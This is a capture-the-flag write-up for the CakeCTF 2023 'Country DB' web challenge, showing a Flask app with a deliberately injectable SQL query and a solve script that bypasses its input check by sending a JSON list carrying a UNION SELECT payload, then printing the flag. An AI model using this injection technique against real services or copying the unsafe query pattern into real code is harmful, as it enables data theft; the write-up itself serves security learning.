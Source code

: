 ```yaml
---
title: 2023 CakeCTF - Country DB
author: thanguyen165
date: 2023-11-11 00:00:00 +0700
categories: [Write-ups, 2023_CakeCTF]
tags: [Web Exploitation, SQL injection]
---
```


* 68 points / 246 solves
* author: ptr-yudai
* tag: warm-up

## Description

> Do you know which country code 'CA' and 'KE' are for?
> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!

### Attached

```py
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```
{: file="app.py" }

## Analyzation

Check ```init_db.py``` file, it is not hard to find out this is sqli.

The query is so simple

```sql
SELECT name FROM country WHERE code=UPPER('AF') UNION SELECT FLAG FROM FLAG -- trash
```

The main problem of this challenge is to bypass the filters
```py
req = flask.request.get_json()
if 'code' not in req:
    flask.abort(400, "Empty country code")

code = req['code']
if len(code) != 2 or "'" in code:
    flask.abort(400, "Invalid country code")
```

So the string's length must be 2.

Hmmm, does it have to be string??

## Vulnerability

It does not check type of ```code```, so it does not need to be a string. Another data type can be used instead.

After looking around, I find out ```list``` work!

## Solution

```py
import requests

URL = "http://localhost:8020/api/search"
URL = "http://countrydb.2023.cakectf.com:8020/api/search"

data = {"code": ["') UNION SELECT FLAG FROM FLAG --", "# "]}

response = requests.post(URL, json=data)

print(response.text)
```
{: file="solve.py" }

*I use empty string for the first query to prevent the result of that query stay up before flag*

The flag is
```
CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
```

* Similar challenge: "upside-down cake" of TSG CTF (2023)*